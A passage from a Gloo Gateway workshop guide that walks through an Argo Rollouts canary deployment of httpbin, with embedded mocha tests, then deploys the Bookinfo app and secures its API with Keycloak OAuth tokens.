            namespace: httpbin
  template:
    metadata:
      labels:
        app: httpbin1
        version: v1
    spec:
      serviceAccountName: httpbin1
      containers:
      - name: httpbin
        image: mccutchen/go-httpbin:v2.13.4
        command: [ go-httpbin ]
        args:
          - "-max-duration"
          - "600s" # override default 10s
          - -use-real-hostname
        ports:
          - name: http
            containerPort: 8080
            protocol: TCP
        livenessProbe:
          httpGet:
            path: /status/200
            port: http
        readinessProbe:
          httpGet:
            path: /status/200
            port: http
        resources:
          limits:
            cpu: 1
            memory: 512Mi
          requests:
            cpu: 100m
            memory: 256Mi
        env:
        - name: K8S_MEM_LIMIT
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.memory
        - name: GOMAXPROCS
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.cpu
EOF
```

Take a look at the "stable" service now that the `Rollout` has been updated:

```shell
kubectl --context ${CLUSTER1} -n httpbin get svc httpbin1 -oyaml
```

Note that there's a new item in the `selector` field:

```,nocopy
  selector:
    app: httpbin1
    rollouts-pod-template-hash: 9fcf7cc96
```

This means that the stable service has been modified to point to the `ReplicaSet` that manages the "stable" pods.

Check the canary service too:

```shell
kubectl --context ${CLUSTER1} -n httpbin get svc httpbin1-canary -oyaml
```

It has the same addition, referring to the same `ReplicaSet` label.
At the moment, both services are referring to the same `ReplicaSet` because we are not currently performing a rollout.
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("httpbin rollout", () => {
  it("is at step 5 with canary weight 100 and stable image tag v2.13.4", () => {
    let cli = chaiExec(`kubectl argo rollouts --context ${process.env.CLUSTER1} -n httpbin get rollout httpbin1 --no-color`);
    expect(cli).to.exit.with.code(0);
    expect(cli).to.have.output.that.matches(new RegExp("\\bStatus:\\s+.+ Healthy\\b"));
    expect(cli).to.have.output.that.matches(new RegExp("\\bStep:\\s+5/5\\b"));
    expect(cli).to.have.output.that.matches(new RegExp("\\bActualWeight:\\s+100\\b"));
    expect(cli).to.have.output.that.matches(new RegExp("mccutchen/go-httpbin:v2.13.4.+(stable)\\b"));
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/canary-rollout/tests/rollout.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

const canaryWeight = 0
const stableWeight = 100 - canaryWeight

describe("httproute weights for rollout canary weight 0", () => {
  it("has canary route weight", () => {
    let cli = chaiExec(`kubectl --context ${process.env.CLUSTER1} -n httpbin get httproute httpbin -o jsonpath='{.spec.rules[0].backendRefs[?(@.name == "httpbin1-canary")].weight}'`);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.equal(`'${canaryWeight}'`);
  });

  it("has stable route weight", () => {
    let cli = chaiExec(`kubectl --context ${process.env.CLUSTER1} -n httpbin get httproute httpbin -o jsonpath='{.spec.rules[0].backendRefs[?(@.name == "httpbin1")].weight}'`);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.equal(`'${stableWeight}'`);
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/canary-rollout/tests/route-weights.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Now, let's trigger the rollout by updating the image of the `httpbin` container to the latest version:

```bash
kubectl argo rollouts --context ${CLUSTER1} -n httpbin set image httpbin1 httpbin=mccutchen/go-httpbin:v2.14.0
```

<!--bash
echo -n Waiting for rollout to be ready...
timeout -v 5m bash -c "until [[ \$(kubectl --context ${CLUSTER1} -n httpbin get rollout httpbin1 -ojsonpath='{.status.currentStepIndex}' 2>/dev/null) -eq 0 ]]; do
  sleep 1
  echo -n .
done"
echo
-->

According to the canary strategy we defined, at the moment there will be no change to our application.
However, our rollout will have started, and we can see that with the following command:

```bash
kubectl argo rollouts --context ${CLUSTER1} -n httpbin get rollout httpbin1
```

This shows us that the rollout is paused and that Argo Rollouts has created a canary `ReplicaSet` with 0 replicas for now:

```,nocopy
Name:            httpbin1
Namespace:       httpbin
Status:          ॥ Paused
Message:         CanaryPauseStep
Strategy:        Canary
  Step:          0/5
  SetWeight:     0
  ActualWeight:  0
Images:          mccutchen/go-httpbin:v2.13.4 (stable)
Replicas:
  Desired:       1
  Current:       1
  Updated:       0
  Ready:         1
  Available:     1

NAME                                 KIND        STATUS        AGE  INFO
⟳ httpbin1                           Rollout     ॥ Paused      77s  
├──# revision:2                                                     
│  └──⧉ httpbin1-78b4897d85          ReplicaSet  • ScaledDown  4s   canary
└──# revision:1                                                     
   └──⧉ httpbin1-9fcf7cc96           ReplicaSet  ✔ Healthy     77s  stable
      └──□ httpbin1-9fcf7cc96-7pr4f  Pod         ✔ Running     77s  ready:1/1
```
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("httpbin rollout", () => {
  it("is at step 0 with canary weight 0 and stable image tag v2.13.4", () => {
    let cli = chaiExec(`kubectl argo rollouts --context ${process.env.CLUSTER1} -n httpbin get rollout httpbin1 --no-color`);
    expect(cli).to.exit.with.code(0);
    expect(cli).to.have.output.that.matches(new RegExp("\\bStatus:\\s+.+ Paused\\b"));
    expect(cli).to.have.output.that.matches(new RegExp("\\bStep:\\s+0/5\\b"));
    expect(cli).to.have.output.that.matches(new RegExp("\\bActualWeight:\\s+0\\b"));
    expect(cli).to.have.output.that.matches(new RegExp("mccutchen/go-httpbin:v2.13.4.+(stable)\\b"));
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/canary-rollout/tests/rollout.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

const canaryWeight = 0
const stableWeight = 100 - canaryWeight

describe("httproute weights for rollout canary weight 0", () => {
  it("has canary route weight", () => {
    let cli = chaiExec(`kubectl --context ${process.env.CLUSTER1} -n httpbin get httproute httpbin -o jsonpath='{.spec.rules[0].backendRefs[?(@.name == "httpbin1-canary")].weight}'`);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.equal(`'${canaryWeight}'`);
  });

  it("has stable route weight", () => {
    let cli = chaiExec(`kubectl --context ${process.env.CLUSTER1} -n httpbin get httproute httpbin -o jsonpath='{.spec.rules[0].backendRefs[?(@.name == "httpbin1")].weight}'`);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.equal(`'${stableWeight}'`);
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/canary-rollout/tests/route-weights.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Let's get it to the next step by running this command:

```bash
kubectl argo rollouts --context ${CLUSTER1} -n httpbin promote httpbin1
```

You can also do this in the dashboard if you prefer.

<!--bash
echo -n Waiting for rollout to be ready...
timeout -v 5m bash -c "until [[ \$(kubectl --context ${CLUSTER1} -n httpbin get rollout httpbin1 -ojsonpath='{.status.currentStepIndex}' 2>/dev/null) -eq 2 ]]; do
  sleep 1
  echo -n .
done"
echo
-->

Check the rollout status again:

```bash
kubectl argo rollouts --context ${CLUSTER1} -n httpbin get rollout httpbin1
```

Note that the canary `ReplicaSet` now has a pod, and the weights are now set to 50%:

```,nocopy
Name:            httpbin1
Namespace:       httpbin
Status:          ॥ Paused
Message:         CanaryPauseStep
Strategy:        Canary
  Step:          2/5
  SetWeight:     50
  ActualWeight:  50
Images:          mccutchen/go-httpbin:v2.13.4 (stable)
                 mccutchen/go-httpbin:v2.14.0 (canary)
Replicas:
  Desired:       1
  Current:       2
  Updated:       1
  Ready:         2
  Available:     2

NAME                                  KIND        STATUS     AGE    INFO
⟳ httpbin1                            Rollout     ॥ Paused   2m41s  
├──# revision:2                                                     
│  └──⧉ httpbin1-78b4897d85           ReplicaSet  ✔ Healthy  88s    canary
│     └──□ httpbin1-78b4897d85-jsrzl  Pod         ✔ Running  3s     ready:1/1
└──# revision:1                                                     
   └──⧉ httpbin1-9fcf7cc96            ReplicaSet  ✔ Healthy  2m41s  stable
      └──□ httpbin1-9fcf7cc96-7pr4f   Pod         ✔ Running  2m41s  ready:1/1
```

According to our strategy, 50% of our traffic should now be being routed to the canary, and 50% to the stable version.
Let's check the `HTTPRoute` to see this in effect:

```bash
kubectl --context ${CLUSTER1} -n httpbin describe httproute httpbin
```

Note that Argo Rollouts has automatically modified the `weight`s on each of the routes:

```,nocopy
Spec:
  ...
  Rules:
    Backend Refs:
      Group:   
      Kind:    Service
      Name:    httpbin1
      Port:    8000
      Weight:  50
      Group:   
      Kind:    Service
      Name:    httpbin1-canary
      Port:    8000
      Weight:  50
```

Take a look at the canary service again:

```shell
kubectl --context ${CLUSTER1} -n httpbin get svc httpbin1-canary -oyaml
```

Note that the selector has been updated with the canary `ReplicaSet`'s hash:

```,nocopy
  selector:
    app: httpbin1
    rollouts-pod-template-hash: 78b4897d85
```

Argo Rollouts has updated the canary service to point to the new canary pods and modified the `HTTPRoute` to set the desired weights for traffic distribution across the stable and canary services.
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("httpbin rollout", () => {
  it("is at step 2 with canary weight 50 and stable image tag v2.13.4", () => {
    let cli = chaiExec(`kubectl argo rollouts --context ${process.env.CLUSTER1} -n httpbin get rollout httpbin1 --no-color`);
    expect(cli).to.exit.with.code(0);
    expect(cli).to.have.output.that.matches(new RegExp("\\bStatus:\\s+.+ Paused\\b"));
    expect(cli).to.have.output.that.matches(new RegExp("\\bStep:\\s+2/5\\b"));
    expect(cli).to.have.output.that.matches(new RegExp("\\bActualWeight:\\s+50\\b"));
    expect(cli).to.have.output.that.matches(new RegExp("mccutchen/go-httpbin:v2.13.4.+(stable)\\b"));
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/canary-rollout/tests/rollout.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

const canaryWeight = 50
const stableWeight = 100 - canaryWeight

describe("httproute weights for rollout canary weight 50", () => {
  it("has canary route weight", () => {
    let cli = chaiExec(`kubectl --context ${process.env.CLUSTER1} -n httpbin get httproute httpbin -o jsonpath='{.spec.rules[0].backendRefs[?(@.name == "httpbin1-canary")].weight}'`);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.equal(`'${canaryWeight}'`);
  });

  it("has stable route weight", () => {
    let cli = chaiExec(`kubectl --context ${process.env.CLUSTER1} -n httpbin get httproute httpbin -o jsonpath='{.spec.rules[0].backendRefs[?(@.name == "httpbin1")].weight}'`);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.equal(`'${stableWeight}'`);
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/canary-rollout/tests/route-weights.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Let's proceed to the last step of the rollout by promoting the rollout in the dashboard or running this command:

```bash
kubectl argo rollouts --context ${CLUSTER1} -n httpbin promote httpbin1
```

<!--bash
echo -n Waiting for rollout to be ready...
timeout -v 5m bash -c "until [[ \$(kubectl -n httpbin get rollout httpbin1 -ojsonpath='{.status.currentStepIndex}' 2>/dev/null) -eq 4 ]]; do
  sleep 1
  echo -n .
done"
echo
-->

100% of our traffic should now be being routed to the canary, and none to the stable version.
Let's check the `HTTPRoute` again to see this in effect:

```bash
kubectl -n httpbin describe httproute httpbin
```

```,nocopy
Spec:
  ...
  Rules:
    Backend Refs:
      Group:   
      Kind:    Service
      Name:    httpbin1
      Port:    8000
      Weight:  0
      Group:   
      Kind:    Service
      Name:    httpbin1-canary
      Port:    8000
      Weight:  100
```
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("httpbin rollout", () => {
  it("is at step 4 with canary weight 100 and stable image tag v2.13.4", () => {
    let cli = chaiExec(`kubectl argo rollouts --context ${process.env.CLUSTER1} -n httpbin get rollout httpbin1 --no-color`);
    expect(cli).to.exit.with.code(0);
    expect(cli).to.have.output.that.matches(new RegExp("\\bStatus:\\s+.+ Paused\\b"));
    expect(cli).to.have.output.that.matches(new RegExp("\\bStep:\\s+4/5\\b"));
    expect(cli).to.have.output.that.matches(new RegExp("\\bActualWeight:\\s+100\\b"));
    expect(cli).to.have.output.that.matches(new RegExp("mccutchen/go-httpbin:v2.13.4.+(stable)\\b"));
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/canary-rollout/tests/rollout.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

const canaryWeight = 100
const stableWeight = 100 - canaryWeight

describe("httproute weights for rollout canary weight 100", () => {
  it("has canary route weight", () => {
    let cli = chaiExec(`kubectl --context ${process.env.CLUSTER1} -n httpbin get httproute httpbin -o jsonpath='{.spec.rules[0].backendRefs[?(@.name == "httpbin1-canary")].weight}'`);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.equal(`'${canaryWeight}'`);
  });

  it("has stable route weight", () => {
    let cli = chaiExec(`kubectl --context ${process.env.CLUSTER1} -n httpbin get httproute httpbin -o jsonpath='{.spec.rules[0].backendRefs[?(@.name == "httpbin1")].weight}'`);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.equal(`'${stableWeight}'`);
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/canary-rollout/tests/route-weights.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

One final promotion of the rollout will get us back to the completed state, where we have a single pod running the new image; all traffic is being routed to it through the stable service; and both the stable and canary services will be selecting the new pod.
Let's get to that state now:

```bash
kubectl argo rollouts --context ${CLUSTER1} -n httpbin promote httpbin1
```

<!--bash
echo -n Waiting for rollout to be ready...
timeout -v 5m bash -c "until [[ \$(kubectl -n httpbin get rollout httpbin1 -ojsonpath='{.status.currentStepIndex}' 2>/dev/null) -eq 5 ]]; do
  sleep 1
  echo -n .
  kubectl argo rollouts --context ${CLUSTER1} -n httpbin promote httpbin1
done"
echo
-->

Check the rollout status one last time:

```bash
kubectl argo rollouts --context ${CLUSTER1} -n httpbin get rollout httpbin1
```

You'll get output like this:

```,nocopy
Name:            httpbin1
Namespace:       httpbin
Status:          ✔ Healthy
Strategy:        Canary
  Step:          5/5
  SetWeight:     100
  ActualWeight:  100
Images:          mccutchen/go-httpbin:v2.13.4
                 mccutchen/go-httpbin:v2.14.0 (stable)
Replicas:
  Desired:       1
  Current:       2
  Updated:       1
  Ready:         2
  Available:     2

NAME                                  KIND        STATUS     AGE    INFO
⟳ httpbin1                            Rollout     ✔ Healthy  6m15s  
├──# revision:2                                                     
│  └──⧉ httpbin1-78b4897d85           ReplicaSet  ✔ Healthy  5m2s   stable
│     └──□ httpbin1-78b4897d85-jsrzl  Pod         ✔ Running  3m37s  ready:1/1
└──# revision:1                                                     
   └──⧉ httpbin1-9fcf7cc96            ReplicaSet  ✔ Healthy  6m15s  delay:25s
      └──□ httpbin1-9fcf7cc96-7pr4f   Pod         ✔ Running  6m15s  ready:1/1
```

After a short delay, `revision:1` will be scaled down and the rollout of the new version of our application will be completed.

In a more realistic environment, we would have used these pauses to perform [analysis](https://argo-rollouts.readthedocs.io/en/stable/features/analysis/)
on the canary versions to make sure the new version is working and performant, with the option to automatically promote or abort rollouts based on metrics.
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("httpbin rollout", () => {
  it("is at step 5 with canary weight 100 and stable image tag v2.14.0", () => {
    let cli = chaiExec(`kubectl argo rollouts --context ${process.env.CLUSTER1} -n httpbin get rollout httpbin1 --no-color`);
    expect(cli).to.exit.with.code(0);
    expect(cli).to.have.output.that.matches(new RegExp("\\bStatus:\\s+.+ Healthy\\b"));
    expect(cli).to.have.output.that.matches(new RegExp("\\bStep:\\s+5/5\\b"));
    expect(cli).to.have.output.that.matches(new RegExp("\\bActualWeight:\\s+100\\b"));
    expect(cli).to.have.output.that.matches(new RegExp("mccutchen/go-httpbin:v2.14.0.+(stable)\\b"));
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/canary-rollout/tests/rollout-final.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

const canaryWeight = 0
const stableWeight = 100 - canaryWeight

describe("httproute weights for rollout canary weight 0", () => {
  it("has canary route weight", () => {
    let cli = chaiExec(`kubectl --context ${process.env.CLUSTER1} -n httpbin get httproute httpbin -o jsonpath='{.spec.rules[0].backendRefs[?(@.name == "httpbin1-canary")].weight}'`);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.equal(`'${canaryWeight}'`);
  });

  it("has stable route weight", () => {
    let cli = chaiExec(`kubectl --context ${process.env.CLUSTER1} -n httpbin get httproute httpbin -o jsonpath='{.spec.rules[0].backendRefs[?(@.name == "httpbin1")].weight}'`);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.equal(`'${stableWeight}'`);
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/canary-rollout/tests/route-weights.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
You can clean up by deleting the `Rollout` and canary service:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete rollout httpbin1
kubectl --context ${CLUSTER1} -n httpbin delete svc httpbin1-canary
```

then apply the original `httpbin1` deployment and the `HTTPRoute` manifest:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  name: httpbin1
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: httpbin1
      version: v1
  template:
    metadata:
      labels:
        app: httpbin1
        version: v1
    spec:
      serviceAccountName: httpbin1
      containers:
      - name: httpbin
        image: mccutchen/go-httpbin:v2.14.0
        command: [ go-httpbin ]
        args:
          - "-max-duration"
          - "600s" # override default 10s
          - -use-real-hostname
        ports:
          - name: http
            containerPort: 8080
            protocol: TCP
        livenessProbe:
          httpGet:
            path: /status/200
            port: http
        readinessProbe:
          httpGet:
            path: /status/200
            port: http
        resources:
          limits:
            cpu: 1
            memory: 512Mi
          requests:
            cpu: 100m
            memory: 256Mi
        env:
        - name: K8S_MEM_LIMIT
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.memory
        - name: GOMAXPROCS
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.cpu
EOF

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```


## Lab 35 - Deploy the Bookinfo sample application <a name="lab-35---deploy-the-bookinfo-sample-application-"></a>
[](https://youtu.be/nzYcrjalY5A "Video Link")

We're going to deploy the Bookinfo sample application to demonstrate several features of Gloo Gateway.

```bash
kubectl --context ${CLUSTER1} create ns bookinfo
kubectl --context ${CLUSTER1} -n bookinfo apply -f https://raw.githubusercontent.com/istio/istio/master/samples/bookinfo/platform/kube/bookinfo.yaml
```

<!--bash
kubectl --context ${CLUSTER1} -n bookinfo rollout status deploy --timeout=5m
-->

You can check that the Bookinfo pods are running using the following command:

```shell
kubectl --context ${CLUSTER1} -n bookinfo get pods
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Bookinfo app", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["productpage-v1", "ratings-v1", "details-v1", "reviews-v1", "reviews-v3"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/bookinfo/deploy-bookinfo/tests/check-bookinfo.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
Configure your hosts file to resolve bookinfo.example.com with the IP address of the proxy by executing the following command:

```bash
./scripts/register-domain.sh bookinfo.example.com ${PROXY_IP}
```


## Lab 36 - Expose the productpage API securely <a name="lab-36---expose-the-productpage-api-securely-"></a>

Gloo Gateway includes a developer portal, which provides a framework for managing API discovery, API client identity, and API policies.

First, let's expose, secure and rate-limit the Bookinfo productpage application. Then, we'll use Gloo Gateway to automatically discover and share the API definitions and expose it in a Developer Portal.

The team in charge of the gateway can create a parent `HTTPRoute` to delegate the routing of the domain bookinfo.example.com for any call starting with `/api/bookinfo` to the team in charge of the bookinfo application.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: bookinfo
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https
  hostnames:
    - "bookinfo.example.com"
  rules:
    # If the request path starts with /api/bookinfo
    - matches:
      - path:
          type: PathPrefix
          value: /api/bookinfo
      # Delegate routing to bookinfo namespace
      backendRefs: 
        - name: '*'
          namespace: bookinfo
          group: gateway.networking.k8s.io
          kind: HTTPRoute
EOF
```

The team in charge of the Bookinfo application can now expose the productpage API through the Gateway using a child `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: productpage-api-v1
  namespace: bookinfo
spec:
  rules:
    # If the request path starts with /api/bookinfo/v1
    - matches:
      - path:
          type: PathPrefix
          value: /api/bookinfo/v1
      # Route to the productpage service
      backendRefs:
        - name: productpage
          port: 9080
      # Rewrite the path
      filters:
        - type: URLRewrite
          urlRewrite:
            path:
              type: ReplacePrefixMatch
              replacePrefixMatch: /api/v1/products
EOF
```

You should now be able to access the API through the gateway without any authentication:

```shell
curl -k "https://bookinfo.example.com/api/bookinfo/v1"
```

Here is the expected output:

```json,nocopy
[{"id": 0, "title": "The Comedy of Errors", "descriptionHtml": "<a href=\"https://en.wikipedia.org/wiki/The_Comedy_of_Errors\">Wikipedia Summary</a>: The Comedy of Errors is one of <b>William Shakespeare's</b> early plays. It is his shortest and one of his most farcical comedies, with a major part of the humour coming from slapstick and mistaken identity, in addition to puns and word play."}]
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Access the API without authentication", () => {
  it('Checking text \'The Comedy of Errors\' in the response', () => helpersHttp.checkBody({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v1', body: 'The Comedy of Errors', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/bookinfo/dev-portal-api/tests/access-api-no-auth.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

You generally want to secure the access. This is often the responsibility of the team in charge of the gateway to handle this part.

Let's use OAuth tokens for that.

You need to create an `AuthConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: apis
  namespace: gloo-system
spec:
  configs:
    - oauth2:
        accessTokenValidation:
          jwt:
            remoteJwks:
              url: "${KEYCLOAK_URL}/realms/workshop/protocol/openid-connect/certs"
EOF
```

Then, you need to create a `RouteOption` which reference this `AuthConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption-apis
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: bookinfo
  options:
    # ExtAuth configuration
    extauth:
      configRef:
        name: apis
        namespace: gloo-system
    cors:
      allowCredentials: true
      allowHeaders:
      - "*"
      allowMethods:
      - GET
      allowOriginRegex:
      - ".*"
EOF
```

Note that we're configuring CORS in the `RouteOption` to allow the portal frontend to send API calls the `bookinfo` API later.

As you can see, the `RouteOption` is targetting the parent `HTTPRoute`. So it will be applied to all the APIs configured by the team in charge of the Bookinfo application.

You can't use the same option in several `RouteOption` objects applied to same route.

In case of conflict, the priority is given to:
- `ExtensionRef` in a parent `HTTPRoute`
- `ExtensionRef` in the child `HTTPRoute`
- `TargetRef` is the lowest priority

Try to access the API without authentication:

```shell
curl -k "https://bookinfo.example.com/api/bookinfo/v1" -I
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Access to API unauthorized", () => {
  it('Response code is 403', () => helpers.checkURL({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v1', retCode: 403 }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/bookinfo/dev-portal-api/tests/access-api-unauthorized.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

The access is refused (403 response):

```http,nocopy
HTTP/2 403 
date: Thu, 25 Apr 2024 09:16:18 GMT
server: envoy
```

Let's create a token for the user `user1`:

```bash
export USER1_TOKEN=$(curl -Ssm 10 --fail-with-body \
  -d "client_id=${KEYCLOAK_CLIENT}" \
  -d "client_secret=${KEYCLOAK_SECRET}" \
  -d "username=user1" \
  -d "password=password" \
  -d "grant_type=password" \
  "$KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token" |
  jq -r .access_token)

echo export KEYCLOAK_CLIENT=${KEYCLOAK_CLIENT}
echo export KEYCLOAK_SECRET=${KEYCLOAK_SECRET}
echo export KEYCLOAK_URL=${KEYCLOAK_URL}
echo export USER1_TOKEN=${USER1_TOKEN}
```

Now, you should be able to access the API using this token:

```shell
curl -k -H "Authorization: Bearer $USER1_TOKEN" "https://bookinfo.example.com/api/bookinfo/v1"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Access to API authorized", () => {
  it('Response code is 200', () => helpers.checkURL({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v1', headers: [{key: 'Authorization', value: 'Bearer ' + process.env.USER1_TOKEN}], retCode: 200 }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/bookinfo/dev-portal-api/tests/access-api-authorized.test.js.liquid"
